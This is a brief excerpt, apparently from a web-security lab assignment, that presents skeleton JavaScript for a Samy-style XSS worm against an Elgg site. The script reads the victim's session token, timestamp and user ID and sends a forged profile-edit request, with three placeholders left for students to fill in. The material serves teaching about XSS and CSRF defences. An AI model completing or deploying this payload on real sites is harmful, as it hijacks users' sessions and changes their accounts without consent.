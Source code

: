 


The assignment brief supplies the following skeleton JavaScript for the worm, leaving three \textquotedbl{}FILL-IN\textquotedbl{} fields for the values a legitimate profile-edit request actually uses:

\begin{lstlisting}
<script type='text/javascript'>
window.onload=function(){
    //JavaScript code to access user name, user guid, Time Stamp
    //__elgg_ts and Security Token __elgg_token
    var userName=elgg.session.user.name;
    var guid='&guid='+elgg.session.user.guid;
    var ts='&__elgg_ts='+elgg.security.token.__elgg_ts;
    var token='&__elgg_token='+elgg.security.token.__elgg_token;
    var desc='&description= *** '; //FILL-IN
    var name='&name='+userName;
    //Construct the content of your url.
    var sendurl='***'; //FILL-IN
    var content=token+ts+name+desc+guid;
    var samyGuid=***;     //FILL-IN
    if(elgg.session.user.guid!=samyGuid) {
          //Create and send Ajax request to modify profile
          var Ajax=null;
          Ajax=new XMLHttpRequest();
          Ajax.open('POST',sendurl,true)
          Ajax.setRequestHeader('Host','www.seed-server.com');
          Ajax.setRequestHeader('Content-Type',
                                'application/x-www-form-urlencoded');
          Ajax.send(content);
    }
}
</script>
\end{lstlisting}

\dranswer

